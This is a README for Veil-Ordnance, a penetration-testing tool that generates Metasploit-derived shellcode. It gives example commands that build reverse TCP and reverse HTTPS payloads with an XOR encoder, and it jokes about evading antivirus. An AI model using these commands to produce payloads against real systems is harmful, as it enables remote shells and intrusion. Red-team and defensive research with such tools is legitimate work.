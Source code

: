 Veil-Ordnance
======

Veil-Ordnance is designed to quickly generate shellcode that can be used for exploits or payloads.  The inspiration for this came after multiple discussions between @christruncer, @themightyshiv, and @harmj0y where we identified a need for a tool that generates shellcode, that won't change its output on us.  Rather than rely on a third party to do this, we decided we should write our own.

All payloads in this tool were ported from the Metasploit Framework.  There is no claim to being the original author of any of the payloads.  The awesome guys working on the Metasploit Project deserve all praise for writing the different payloads within this tool.  Their payloads were simply ported from Ruby to Python.


Usage:

./Veil-Ordnance.py -p rev_tcp --ip 192.168.63.149 --port 8675

Examples:

./Veil-Ordnance.py -p rev_https --ip 192.168.63.149 --port 443 -e xor -b \x00\x0a --print-stats


Thanks:
Thanks to the Metasploit team for all their hard work.  Allowing their code to be used by the community is awesome, and really appreciated.  Thanks to Jon Yates (@redbeardsec) for really helping to get my up to speed and providing his analysis on how payloads are generated.  Thanks to Justin Warner (@sixdub) for allowing me to include his shellcode encoder within Ordnance.


Call to Action:
We'd love for an additional encoder, or more, to be added to Veil-Ordnance.  The more that can be added in/ported, the better coverage in ensuring that at least one encoder could be used to prevent any specific bad character.  If anyone is willing to port one, or send us a python version of their encoder, please hit us up, or send a pull request!  We'd be happy to give full credit to you.

#avlol

